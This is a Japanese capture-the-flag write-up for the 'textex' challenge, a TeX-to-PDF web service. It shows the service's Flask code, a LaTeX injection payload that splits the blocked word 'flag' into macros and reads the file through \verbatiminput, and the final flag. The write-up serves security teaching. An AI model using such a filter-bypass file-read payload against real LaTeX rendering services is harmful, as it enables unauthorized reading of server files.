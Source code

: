 # textex

## 問題文
texをpdfにするサービスを作りました。  
texで攻撃することはできますか？  
[https://textex.quals.beginners.seccon.jp](https://textex.quals.beginners.seccon.jp/)  
[textex.tar.gz](files/textex.tar.gz) 31fd2c7d44bf76b937e3d141032ac62b5e301dee  

## 難易度
**easy**  

## 作問にあたって
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)に最近ペイロードが追加されていたため問題にしました。  
コピペだけでは解けないようにしたつもりです。  
ダミーフラグに起因する問題サーバとの差異が見られましたが、原因の特定が容易であるため競技の範囲内と判断しました(惜しいところまでいった方はごめんなさい)。  

## 解法
texをpdfに変換するサービスが動いているようだ。  
![site.png](images/site.png)  
配布されたファイルからflagファイルにフラグが書かれているようだ。  
ソースコードの主要な関数は以下のようになっている。  
```python
~~~
def tex2pdf(tex_code) -> str:
    # Generate random file name.
    filename = "".join([random.choice(string.digits + string.ascii_lowercase + string.ascii_uppercase) for i in range(2**5)])
    # Create a working directory.
    os.makedirs(f"tex_box/{filename}", exist_ok=True)
    # .tex -> .pdf
    try:
        # No flag !!!!
        if "flag" in tex_code.lower():
            tex_code = ""
        # Write tex code to file.
        with open(f"tex_box/{filename}/{filename}.tex", mode="w") as f:
            f.write(tex_code)
        # Create pdf from tex.
        subprocess.run(["pdflatex", "-output-directory", f"tex_box/{filename}", f"tex_box/{filename}/{filename}.tex"], timeout=0.5)
    except:
        pass
    if not os.path.isfile(f"tex_box/{filename}/{filename}.pdf"):
        # OMG error ;(
        shutil.copy("tex_box/error.pdf", f"tex_box/{filename}/{filename}.pdf")
    return f"{filename}"

@app.route("/pdf", methods=["POST"])
def pdf():
    # tex to pdf.
    filename = tex2pdf(request.form.get("tex_code"))
    # Here's your pdf.
    with open(f"tex_box/{filename}/{filename}.pdf", "rb") as f:
        pdf = io.BytesIO(f.read())
    shutil.rmtree(f"tex_box/{filename}/")
    return send_file(pdf, mimetype="application/pdf")
~~~
```
`pdflatex`に入力したLaTeXコードを渡しているようだ。  
壊れたtexを送信するとエラーpdfが返ってくるので、悪用できそうにない(本当はいろいろできるかもしれない)。  
ここでLaTeXにはファイルを読み取る機能があることを思い出す。  
ペイロードを探すと[LaTex Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)が見つかる。  
これで任意のファイルが読みだせそうだ(`-shell-escape`がついていないので`\write18`のRCEは難しい)。  
文字列`flag`が消されるので、バイパス手法を考える。  
LaTeXはマクロ定義が可能なので、文字列`flag`を分割してやればよい。  
以下のtexでファイルを読み出す。  
```tex
\documentclass{article}
\usepackage{verbatim}
\begin{document}

\def \fl {fl}
\def \ag {ag}

\verbatiminput{\fl\ag}

\end{document}
```
送信するとflagが書き込まれたpdfが返ってくる。  
ちなみにLeTexファイルとして読み込む`\input`を用いる場合、flag形式が`ctf4b{[\x20-\x7e]+}`なので特殊文字(`_`など)でエラーが発生する可能性がある。  
これはローカルではフラグがダミーであるため発生しなかったかもしれないが、`\catcode`などを用いて回避する必要がある。  

## ctf4b{15_73x_pr0n0unc3d_ch0u?}